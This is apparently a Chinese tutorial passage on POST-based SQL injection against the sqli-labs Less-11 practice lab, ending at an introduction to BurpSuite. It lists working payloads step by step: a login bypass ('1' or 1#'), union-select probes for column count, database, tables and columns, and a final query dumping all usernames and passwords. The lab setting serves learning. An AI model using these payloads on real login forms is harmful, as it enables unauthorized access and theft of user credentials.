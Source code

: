 ![1633530394700](https://i.loli.net/2021/10/07/kURNTxqgMFwB1sz.png)

### sql注入实例三：POST注入（登录绕过）

以sqli-labs less-11为例。

1.查看该网页html部分，获取到form表单采用post形式提交，需要提交passwd和uname两个参数

![image-20211007005445731](https://i.loli.net/2021/10/07/4LjYChHetETflUR.png)

2.可大致推断数据库的sql语句为

```
select username,password from users where uname=用户名&passwd=密码
```

3.在Less1-4中，我们正常访问需要 ?id=xxx而这里需要 uname=用户名&passwd=密码

同理：?id=1'       类似于 uname=1&passwd=1'，username输出1'，根据报错可知，还是字符型单引号注入

![image-20211007010321441](https://i.loli.net/2021/10/07/5Gl37swQaZLXecy.png)

4.username输入1' or 1#，登录成功，确定是一个注册点

![image-20211007010547170](https://i.loli.net/2021/10/07/EZ1B3HezCTSPG9D.png)

5.获取字段数，order by 在这里是行不通的，因为1' order by 1 数据库中根本没有用户名为1的用户（真的有当我没说），可以使用-1' union select 1,2# 使得前一个条件为false直接执行后面的select语句，结果返回用户名和密码可以确定字段数，username输入`-1' union select 1,2#`返回用户名和密码，username输入`-1' union select 1,2,3#`报错，可以确定字段数为2

![image-20211007011308470](https://i.loli.net/2021/10/07/SyXAFZE4v8iPLYJ.png)

6.获得当前数据库名，username输入`-1' union select 1,database()#`，当前数据库为security

![image-20211007011440900](https://i.loli.net/2021/10/07/eaiC2LhIr1P5l9g.png)

7.获取当前数据库所有的表，username输入`-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#`

![image-20211007011733506](https://i.loli.net/2021/10/07/dKiH6t9yWbQrnAz.png)

8.获取users表的字段，username输入`-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#`

![image-20211007012009476](https://i.loli.net/2021/10/07/kcd9ALjiUTtIHQ2.png)

9.`-1' union select group_concat(password),group_concat(username) from users#`获取用户名、密码

![image-20211007012213348](https://i.loli.net/2021/10/07/CuWtJKarBzoYMs1.png)

### 使用BurpSuite工具进行注入

**BurpSuite的核心是代理Proxy**，通常情况下使用BurpSuite的套路是：浏览器设置BurpSuite代理→访问Web应用程序→BurpSuite抓包分析

还是以sqli-labs less-11为例。
